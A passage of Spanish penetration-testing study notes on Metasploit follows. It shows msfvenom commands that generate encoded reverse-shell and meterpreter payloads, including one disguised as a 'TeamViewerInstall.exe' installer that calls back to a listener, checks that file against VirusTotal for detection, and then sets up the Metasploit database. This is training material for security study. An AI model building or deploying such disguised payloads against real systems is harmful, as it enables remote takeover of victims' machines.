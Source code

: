```
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```
Si queremos un encoder existente simplemente usaremos el comando
```
show encoders
```
con el "msfconsole" para elegir uno "exploit module + payload"
```
set payload 15
show encoders
```
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```
Esto generar un .exe en formato llamado "teamviewerinstall" en la arquitectura "x86" en la plataforma de windows, y por debajo un "reverse_tcp" shell

Si lo pasamos por virus total 
![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/2154e0a8-66f3-4aa6-a640-2b6112fcceaa)

Como vemos no hay una evasión de antivirus, hay muchos productos que selecciona como virus, otra herramienta muy importante se llama "msf-virustotal" utilizariamos nuestra "api-key" para analizar nuestros payloads, sin embargo requiere un registro en virus total.
```
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```
# BASES DE DATOS

Las bases de datos en msfconsole se usan para hacer un trackeo de los resultados. No es un misterio que cada vez es mas complejo y mas entre redes, piensa que es como un pequeños directorios con busquedas de resultados, entradas, detecciones, fallos, credeciales, etc..

Suporteada por "PostgreSQL" un acceso para escanear resultados que añaden abilidad al importar y exportar resultados en conjuncion de terceras partes de herramientas. 

## INICIAR LA BASE DE DATOS

Primero de todos deberemos iniciar y comprobar el postgres sql en nuestra máquina.

```
sudo service postgresql status
sudo systemctl stat postgresql
sudo msfdb init
```
Aveces puede dar error por fecha. en caso de eso siempre un "apt update"

```
sudo msfdb status
sudo msfdb init
```
Una vez que la base de datos esta inicializada, podemos iniciar la "msfconsole" y conectar y crear una base de datos simultaneamente.
